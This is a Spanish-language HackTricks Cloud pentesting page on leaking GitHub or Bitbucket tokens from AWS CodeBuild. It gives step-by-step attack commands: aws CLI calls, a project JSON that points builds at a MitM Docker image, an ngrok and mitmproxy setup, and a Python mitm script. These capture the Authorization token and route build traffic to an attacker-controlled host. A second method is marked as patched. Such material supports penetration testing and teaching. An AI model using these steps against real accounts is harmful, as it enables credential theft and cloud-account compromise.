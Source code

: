 # AWS Codebuild - Fuga de Tokens

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop).
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com).
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family).
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) en GitHub.

</details>

## Recuperar Tokens Configurados de Github/Bitbucket

Primero, verifica si hay alguna credencial de origen configurada que puedas filtrar:
```bash
aws codebuild list-source-credentials
```
### A través de la imagen de Docker

Si descubres que la autenticación, por ejemplo, en Github está configurada en la cuenta, puedes **filtrar** ese **acceso** (token de GH u OAuth) haciendo que Codebuild **utilice una imagen de Docker específica** para ejecutar la compilación del proyecto.

Para este propósito, puedes **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para establecer la **imagen de Docker**.

La imagen de Docker que puedes utilizar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen de Docker muy básica que establecerá las variables de entorno `https_proxy`, `http_proxy` y `SSL_CERT_FILE`. Esto te permitirá interceptar la mayoría del tráfico del host indicado en `https_proxy` y `http_proxy`, confiando en el CERT SSL indicado en `SSL_CERT_FILE`.

1. **Crear y subir tu propia imagen de Docker MitM**
* Sigue las instrucciones del repositorio para configurar la dirección IP de tu proxy y establecer tu certificado SSL y **compilar la imagen de Docker**.
* **NO ESTABLEZCAS `http_proxy`** para no interceptar las solicitudes al punto de conexión de metadatos.
* Puedes usar **`ngrok`** como `ngrok tcp 4444` para establecer el proxy en tu host.
* Una vez que hayas compilado la imagen de Docker, **súbela a un repositorio público** (Dockerhub, ECR...).
2. **Configurar el entorno**
* Crea un **nuevo proyecto de Codebuild** o **modifica** el entorno de uno existente.
* Configura el proyecto para que utilice la **imagen de Docker generada anteriormente**.

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Configurar el proxy MitM en tu host**
* Como se indica en el **repositorio de Github**, puedes usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
4. **Ejecuta la compilación y captura las credenciales**

*   Puedes ver el token en el encabezado **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Esto también se puede hacer desde la línea de comandos de aws con algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~A través del protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Por lo tanto, un atacante ya no puede abusar de ella :)**
{% endhint %}

Un atacante con **permisos elevados en un CodeBuild podría filtrar el token de Github/Bitbucket** configurado o, si los permisos se configuraron a través de OAuth, el **token OAuth temporal utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto de CodeBuild apuntando a su máquina (por ejemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Luego, cambiar la URL del repositorio de Github para usar HTTP en lugar de HTTPS, por ejemplo: **http://**github.com/carlospolop-forks/TestActions
* Luego, ejecutar el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto indicado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Construir el proyecto**, las **credenciales** se enviarán en texto claro (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y (ab)usar más fácilmente que usando el servicio CodeBuild directamente.
{% endhint %}

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**merchandising oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
